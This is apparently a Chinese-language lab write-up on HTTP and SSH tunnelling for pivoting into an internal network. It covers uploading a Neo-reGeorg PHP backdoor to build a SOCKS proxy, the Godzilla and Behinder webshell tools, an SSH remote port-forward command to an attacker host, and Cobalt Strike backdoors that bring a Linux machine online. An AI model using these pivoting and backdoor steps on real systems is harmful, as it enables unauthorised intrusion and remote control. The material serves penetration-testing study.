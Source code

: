 
# 隧道技术 http ssh

ssh目前只能通讯，不能上线，目前没有c2工具能利用ssh上线。     [192.168.2.11](http://192.168.2.11/) 192.168.139.222 都是web机。


## http 
http隧道上线一般意义不大，能通过http上线就能通过正反向上线

![1732609043452](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942064.png)

在情况1下，无法通过c2上线控制web机。因为入站只有web端口：80或者443，这两个端口都被占用，所以只能通过webshell工具来控制web机，而且也没有办法通过Web机控制sql，因为web的出站被限制。所以就需要通过隧道技术来实现让sql跟web机连接        这里是通过Web来建立隧道获取sql机上的有价值信息

  看防火墙配置，这里本机只能访问192.168.139.222       2.11 和 2.22 都访问不到     同一个网段好像可以不用看防火墙就能访问，不在同一个网段就得看防火墙策略。

eg: 192.168.139.1 可以访问192.168.139.2     如果192.168.139.2还有一个网段是192.168.2.2  那么192.168.139.1访问192.168.2.2 是访问不到的

![1732618408454](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942065.png)

![1732619300723](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942066.png)

  HTTP隧道搭建内网穿透    Neo-reGeorg-5.2.0工具使用说明，现在是用工具脚本创建一个socks代理。

![1732617986195](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942067.png)

这里将刚才用工具生成的php后门上传到可以通讯的web服务器192.168.139.222  上：

![1732618278013](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942068.png)

socks代理：

![1732618686942](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942069.png)

配置代理------Proxifier

![1732618847723](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942070.png)

然后就访问成功：

![1732619184404](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942071.png)

隧道实现成功

  哥斯拉，冰鞋；冰鞋：本机用隧道技术实现将目标端口（sql）80转发到本地端口2222上，先在本地上线到可以通讯的web机上，然后在信息收集到sql机，利用内网穿透，隧道技术实现

冰鞋复现失败，虚拟机问题：

![1732624362316](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942072.png)

   哥斯拉

端口映射，本地访问远程端口数据 主动转发出来  建立socks代理，连接socks对内网穿透

这里关闭刚才的socks和Proxifier代理：

![1732624587566](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942073.png)

然后哥斯拉连接上web，使用httpProxy：

##### ![1732624748652](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942074.png)

配置代理，访问192.168.2.22   成功

![1732624869350](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942075.png)

  上线c2

http一般不用来上线，http能上线的话，那么正反向也可以用来上线，一般都会用正反向来实现上线。http隧道一般用来信息收集，主要还是因为http在tcp层。

## ssh 

​    首先是被控机跟目标机之间能通讯、让被控机(kali2)将内网机(sql)的80端口流量转发到攻击机(kali)上的1234端口，这里就是攻击机访问自己的1234端口，就等于被控机访问内网机的80端口。不过这里需要配置好环境，在腾讯文档中                                                                                           		ssh -CfNg -R 攻击机端口:内网目标机IP:80 root@攻击机ip                     

  	cs工具默认不支持linux mac  ios andior等这些机器上线，这里需要用到插件才支持这些操作系统上线，用插件生成后门文件后上传到目标系统机上执行。

先将两个文件上传到cs服务器，在向cs里导入脚本：

![1732625412067](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942076.png)

配置生成：

![1732625591959](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942077.png)

在事件日志这儿会有生成后门文件的命令：

![1732625633943](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942078.png)

生成后门，这里是生成的linux系统的上线文件：

![1732625793578](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942079.png)

执行上线文件，成功linux系统（kali ）上线：

![1732625831874](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942080.png)
